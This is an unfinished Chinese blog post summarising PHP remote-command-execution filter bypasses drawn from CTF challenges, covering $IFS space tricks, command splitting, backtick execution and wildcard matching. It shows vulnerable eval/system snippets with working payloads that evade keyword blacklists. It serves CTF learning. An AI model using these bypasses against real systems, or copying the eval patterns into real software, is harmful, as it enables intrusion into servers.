 ```yaml
---
title: "关于RCE绕过的各种姿势"
subtitle: ""

description: "细说姿势"

date: 2024-03-04T15:08:47+08:00
draft: false

tags: ["RCE"]
categories: ["Bypass"]

---
```


## 闲话

这段时间陆陆续续也刷了不少CTF题，碰见了很多让我大开眼界的rce姿势，简单总结下

## 简单的Bypass

### 常见命令的替代

```
ls —— dir
cat —— tac、head、more、less、tail
```

### 分割命令

经常会碰见将各种命令列入黑名单的题，但若正则表达式过于普通，就可以直接分割命令来进行绕过

可用`\`、`''`来讲分割

### 空格绕过

常常会遇见空格被过滤的情况，可以用以下语句绕过

```
$IFS
${IFS}
$IFS$9
<>
```

另外还有很多，实战时这几种就够用，要根据不同的情况使用不同的语句来绕过

### 反引号执行

在某些题目中，往往只给我们`eval()`函数，若此时system一类的执行命令的函数也被限制

就可以用php中反引号可以执行命令的特性来实现命令执行

举个复杂点的栗子（也没复杂到哪去）

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];
$code = str_replace("(","括号",$code);
$code = str_replace(".","点",$code);
eval($code); 
?>
```

本题中过滤了`(`与`.`

由于用反引号执行并不会有回显，所以我们需要`echo`、`printf`、`var_dump`这类语句或函数来输出命令执行的结果

payload

```
code=echo `cat /f*`;
```

### 通配符绕过

我目前遇见的通配符绕过只有两种

`?`：用于匹配单个字符

`[]`：用于匹配一个字符范围

栗题1：

```php
<?php   
error_reporting(0);  
highlight_file(__FILE__);  

if (isset($_POST['ctf_show'])) {    
    $ctfshow = $_POST['ctf_show'];  
    if (!preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/",$ctfshow)){
        system($ctfshow);  
    }
    else{  
        echo("????????");  
    }  
}  
?>
```

题目告诉我们可以用`/getflag`直接获取flag，仔细查看正则便能发现字符`a`被放出来了

这时就能用`?`来匹配其他字母

payload

```
ctf_show=/?????a?
```

栗题2：

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$shell = $_POST['shell'];
$cmd = $_GET['cmd'];
if(preg_match('/f|l|a|g|\*|\?/i',$cmd)){
    die("Hacker!!!!!!!!");
}
eval($shell($cmd)); 
```

可以看到四个字母都被过滤，但其他字母与`[]`被放了出来，这时就能用`[]`来匹配所需字母的范围

payload

```
?cmd=more /[e-g][k-m][0-b][e-h]

shell=system
```

## 无字母RCE

直接上栗题

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);

if (isset($_GET['wllm'])) {
    $wllm = $_GET['wllm'];
    $blacklist = [' ', '\t', '\r', '\n', '\+', '\[', '\^', '\]', '\"', '\-', '\$', '\*', '\?', '\<', '\>', '\=', '\`',];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
            die("LTLT说不能用这些奇奇怪怪的符号哦！");
        }
    }
    if (preg_match('/[a-zA-Z]/is', $wllm)) {
        die("Ra's Al Ghul说不能用字母哦！");
    }
    echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
    eval($wllm);
    else {
        echo "蔡总说：注意审题！！！";
    }
}
```

写累了，下次写